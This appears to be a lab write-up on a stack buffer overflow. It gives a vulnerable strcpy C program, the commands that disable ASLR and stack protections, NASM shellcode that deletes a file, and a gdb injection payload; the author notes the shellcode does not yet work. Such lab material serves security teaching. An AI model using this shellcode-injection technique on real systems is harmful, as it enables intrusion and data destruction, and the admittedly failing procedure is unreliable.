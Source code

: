 ## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code:
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`

<br>
Run file_del: <br>
`nasm -g -f elf file_del.asm`
<br>
`ld -m elf_i386 -o file_del file_del.o`
<br>
![compile vuln](./imgs/file_del1.png)
<br>
Run this command to get shellcode from `file_del`:
<br>
`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
<br>
![shellcode](./imgs/file_del2.png)
<br>

Use `gdb` to run program:
<br>
`gdb vuln.out -q`
<br>
![gdb](./imgs/file_del3.png)
<br>
break at 2 points: <br>
`0x08048441`
<br>
`0x0804846b`
<br>
<br> Run program: <br>
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")`
![](./imgs/file_del4.png)
<br> Continue: `gdb-peda$ c` <br>
![](./imgs/file_del5.png)
<br> `x/80xb $esp` to check stack <br>
We got some problem in shellcode. It's wrong when running program.
